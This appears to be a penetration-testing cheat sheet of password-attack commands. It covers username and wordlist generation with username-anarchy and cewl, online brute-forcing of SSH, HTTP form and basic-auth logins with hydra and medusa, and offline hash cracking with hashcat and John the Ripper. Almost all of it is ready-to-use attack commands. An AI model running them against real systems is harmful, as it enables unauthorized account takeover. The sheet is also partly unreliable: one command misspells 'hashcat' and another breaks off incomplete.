 #hydra #medusa #username #hashcat #cracking #johntheripper
## Username Generation
**Username-anarchy**
```bash
username-anarchy --input-file <FILE> users.txt
```
Custom wordlist from web page
```bash
cewl http://<TARGET> -d <depth> -m 6 --lowercase -w custom-wordlist.txt
```
## Hydra
Dictionary attack
```bash
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> <PROTOCOL>
hydra <RHOST> -l <USERNAME> -p <PASSWORD> -s <PORT> -v -I <PROTOCOL>
hydra <RHOST> -C /PATH/TO/WORDLIST/<FILE> <PROTOCOL>
```
- Setting proxy
```bash
export HYDRA_PROXY=connect://127.0.0.1:8080
unset HYDRA_PROXY
```
POST Form Brute Force
```bash
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/<form-path>:<param1>=^USER^&[param2]=^PASS^&[submit-param]=<submit>:F=<FAILING MESSAGE>"
hydra 10.0.1.2 -L users.txt -P passwords.txt http-post-form "/login.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid Credentials"
```
Basic Auth Brute Force
```bash
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> http-get /<path>
hydra 10.0.1.2 -L users.txt -P passwords.txt http-get /admin.php
```
## Medusa
SSH bruteforce
- threading (-t)
```bash
medusa -h <RHOST> -n <PORT> -U /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> -M <PROTOCOL>
medusa -h 10.0.1.2 -U users.txt -P passwords.txt -M ssh
```
Empty and Battering Ram
- empty (-e)
- battering ram (-s)
```bash
medusa -h 10.0.1.2 -U users.txt -es -M ssh
```
## Hashcat
Custom password wordlist generation
```bash
hascat --force password.list -r /usr/share/hashcat/rules/best64.rule --stdout | sort -u > password.txt
```
Cracking hash dictionary
```bash
hashcat -a 3 
```
## John the Ripper
Cracking hash dictionary
```bash
john --wordlist=/usr/share/wordlist/rockyou.txt <HASHFILE>
```